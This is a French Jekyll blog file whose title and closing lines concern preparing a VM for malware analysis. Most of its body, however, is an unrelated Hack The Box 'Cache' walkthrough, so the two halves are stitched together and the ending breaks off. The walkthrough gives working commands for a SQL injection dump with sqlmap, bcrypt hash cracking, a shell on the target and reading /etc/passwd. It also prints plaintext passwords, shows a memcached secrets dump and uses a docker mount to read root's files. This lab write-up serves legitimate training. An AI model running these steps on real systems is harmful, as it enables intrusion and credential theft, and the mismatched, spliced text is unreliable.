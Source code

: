 ```yaml
---
layout: post
title: Préparation VM
---
```


Etape 1: énumération réseaux de la machine

nmap -sC -sV -T5 10.10.10.188

Grâce à cette commande on peut voir les ports ouverts sur la machine ainsi que les possibles services qui se trouvent derrière.

On voit qu’il y a un service web ainsi que le service SSH

Avant de passer sur l'énumération du site on met dans notre fichier /etc/hosts la ligne suivante:

10.10.10.188 cache.htb Etape 2: Enumération du site web On se connecte à Burp pour naviguer sur le site et commencer à faire une arborescence de celui-ci.

On fait aussi de l'énumération sur cache.htb avec les commandes suivantes :

./ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cache.htb/FUZZ -e php,js,txt

./dirsearch.py -u http://cache.htb -e php

dirbuster (utilisation de la version graphique)

On voit un grand nombre de fichier, ainsi qu’une page d’authentification.

Nous allons essayer de nous connecter :

Une pop-up nous indique que nous n’avons pas les bons identifiants, nous allons nous tourner vers les fichiers JS.

Le fichier nous donne un mot de passe et un compte mais malheureusement nous arrivons sur cette page :

Rien de concluant sur cette page.

Nous nous concentrons maintenant sur la page author.html :

On remarque que l’auteur est également à l’origine du projet Hospital Management System. 7

On se dit qu’il y a certainement un VirtualHost sur le serveur apache, qui nous redirige en fonction du site demandé. Nous tentons : cache.hsm htb.hsm hsm.htb

Succès avec hsm.htb.

Etape 3 : Enumeration sur hsm.htb

On recommence alors l’énumération avec les mêmes commandes sur ce nouveau site.

La aussi on se retrouve avec plein de fichiers et sous-dossiers. On essaie avec admin.php: rien de très concluant. Juste une page pour se connecter. On test des identifiants par défaut comme : root/root, admin/admin etc… Mais rien ne fonctionne. Cependant on y voit la version du CMS OpenEMR 5.0.1 patch(3).

Etape 4 : Recherche d’exploitation sur la version 5.0.1 d’OpenEMR

On cherche alors sur google “OpenEMR 5.0.1 cve” , on y trouve alors cette page :

https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69

Malheureusement il faut être authentifié, hors la page register.php ne fonctionne pas comme elle devrait et nous ne pouvons pas nous créer de compte.

On recherche alors “OpenEMR exploit” et nous tombons sur cette page :

https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

Il s’agit du rapport d’audit concernant notre version, publié par OpenEMR eux mêmes.

Etape 5 : Exploitation de la SQLi

On y apprend que pour utiliser certains exploits il faut d’abord aller sur la page /portal/account/register.php et qu’on pourra ensuite essayer plusieurs exploit

On y voit plusieurs SQLi. On décide de se concentrer sur /portal/add_edit_event_user.php. On se rend sur cette page, on copie les headers qu’on colle dans un fichier texte. Pour l’exploiter avec sqlmap on utilise l’option -r pour prendre notre fichier en paramètre et avec les commandes suivantes on trouve l’utilisateur admin : Contenu de text.txt : GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1 Host: hms.htb User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: keep-alive Cookie: OpenEMR=l8jg1n25bv4oi55imfua46mf4k; PHPSESSID=ucra65vd67k04tjqn3odev2fbg Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0

Commandes py sqlmap.py -r text.txt --dbs py sqlmap.py -r text.txt -D openemr --tables py sqlmap.py -r text.txt -D openemr -T users_secure --dump

Une fois le mot de passe récupéré, nous tentons de le cracker avec JohnTheRipper vu que c’est un hash. On copie le hash dans un fichier qu’on lui donne avec la commande suivante :

john pass.txt

Cette commande va nous renvoyer le résultat suivant :

Using default input encoding: UTF-8 Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) Cost 1 (iteration count) is 32 for all loaded hashes Will run 4 OpenMP threads Proceeding with single, rules:Single Press 'q' or Ctrl-C to abort, almost any other key for status Almost done: Processing the remaining buffered candidate passwords, if any. Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist xxxxxx (?) 1g 0:00:00:00 DONE 2/3 (2020-09-11 15:42) 1.754g/s 2021p/s 2021c/s 2021C/s water..88888888 Use the "--show" option to display all of the cracked passwords reliably Session completed

On voit donc que le mot de passe pour openemr_admin est xxxxxx. Une fois qu’on a cette information on peut aller se connecter sur la page de login de OpenEMR

Etape 6 : Exploitation de la RCE Maintenant qu’on à un accès admin on peut exploiter une RCE qui demandait d’être authentifié :

https://www.exploit-db.com/exploits/48515

Une fois connecté, on essaye de faire spawn un shell digne de ce nom. Après plusieur essais avec https://netsec.ws/?p=337 celle qui a marcher est :

/usr/bin/script -qc /bin/bash /dev/null

Ensuite on fait : cat /etc/passwd

Pour voir tous les utilisateur de la machine. On voit ash,luffy et root. On se souvient alors que sur le premier site , cache.htb, on avait eu des creds pour ash. On les essaie avec :

su ash H@v3_fun

Et voilà nous sommes connectés, nous récupérons le flag user.txt

Etape 7 : Enumération Linux + Pivot Luffy Maintenant il nous reste plus qu’à passer root, on a donc chercher les SUID :

find / -perm 4000 2>/dev/null

Rien trouvé, ainsi que pour les GUID. Or quand on affiche /etc/group on voit que l’utilisateur luffy fait parti d’un groupe docker, or on sait que des élévations de privilèges depuis docker existent. On tente alors de se connecter avec luffy pour ensuite trouver le flag root. On décide alors de regarder ce qui tourne sur la machine via :

netstat -tunlp

Nous voyons un port inconnu. Après quelques recherches nous découvrons ce service :

memcached

Pour se connecter au serveur memcached on fait la commande suivante :

telnet 127.0.0.1 11211

Une fois connectés, nous avons fait la commande suivante après quelque recherche sur https://lzone.de/cheat-sheet/memcached :

stats cachedump 1 0 sortie : ITEM link [21 b; 0 s] ITEM user [5 b; 0 s] ITEM passwd [9 b; 0 s] ITEM file [7 b; 0 s] ITEM account [9 b; 0 s] END

On voit alors qu’on a un item passwd qu’on récupère via :

get passwd sortie : VALUE passwd 0 9 0n3_p1ec3 END

Nous faisons la concordance que 0n3_p1ec3 correspond au mot de passe de luffy on essaie alors de si connecter et ça marche

Etape 8 : Elévation de privilège via Docker

Une fois connecté en luffy on vérifie les groupes

id uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)

Nous voyons que l’utilisateur appartient bien au groupe docker, nous cherchons alors une vulnérabilité permettant de lire les fichiers réservés à root.

Après des recherches sur internet sur l’élévation de privilèges via docker, nous construisons la commande suivante :

docker run -v /root:/mnt ubuntu cat /mnt/root.txt

TADA ! le flag root

Le but de ce premier blog est de montrer les différentes étapes à la préparation de la VM pour l'analyse statique et dynamique.

Installer  Virtual BOX : <a href="https://www.virtualbox.org/wiki/Downloads">Virtual-BOX</a> 

![_config.yml]({{ site.baseurl }}/images/virtualbox.jpeg)

Pour l'analyse j'ai mis en place une VM Windows 7 avec comme outils : 
<ul>
<li>IDA</li>
<li>CFF explorer</li>
<li>Sysinternalsuite</li>
<li> Suite OFFICE
<ul>
